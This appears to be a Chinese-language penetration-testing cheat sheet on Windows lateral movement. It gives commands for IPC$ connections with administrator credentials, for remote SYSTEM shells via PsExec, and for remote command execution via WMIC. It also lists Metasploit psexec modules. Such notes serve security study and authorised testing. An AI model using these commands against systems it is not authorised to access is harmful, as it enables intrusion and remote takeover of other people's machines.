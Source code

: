 ## [](#psexec-%E7%9A%84%E4%BD%BF%E7%94%A8)PsExec 的使用

### [](#pstools-%E5%B7%A5%E5%85%B7%E4%B8%AD%E7%9A%84-psexec)PsTools 工具中的 PsExec

#### [](#%E5%BB%BA%E7%AB%8B-ipc-%E8%BF%9E%E6%8E%A5-1)建立 IPC 连接

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>net use \\IP\ipc$ "password" /u:administrator<br>``` |

#### [](#%E8%8E%B7%E5%8F%96-system-%E6%9D%83%E9%99%90%E7%9A%84-%E4%BA%A4%E4%BA%92%E5%BC%8Fshell)获取 System 权限的 交互式shell

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```cmd<br>PsExec.exe -accepteula \\IP -s cmd.exe<br>或<br>PsExec.exe -accepteula \\IP -s cmd.exe /c ipconfig<br>``` |

如果不使用 -s 命令，则创建一个 Administrator 权限的 shell

如果没有建立 IPC 连接：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>PsExec.exe -accepteula \\IP -u administrator -p password -s cmd.exe<br>``` |

### [](#metasploit-%E4%B8%AD%E7%9A%84-psexec-%E6%A8%A1%E5%9D%97)Metasploit 中的 psexec 模块

-   exploit/windows/smb/psexec
-   exploit/windows/smb/psexec\_psh（powershell 版本）

## [](#wmi-%E7%9A%84%E4%BD%BF%E7%94%A8)WMI 的使用

### [](#%E5%9F%BA%E6%9C%AC%E5%91%BD%E4%BB%A4)基本命令

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>wmic /node:IP /user:administrator /password:passed process call create "cmd.exe /c ipconfig > ip.txt"<br>``` |

建立 IPC 连接后，使用 type 命令读取结果：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>type \\IP\C$\ip.txt<br>``` |

### [](#impacket-%E5%8C%85%E4%B8%AD%E7%9A%84-wmiexec)impacket 包中的 wmiexec
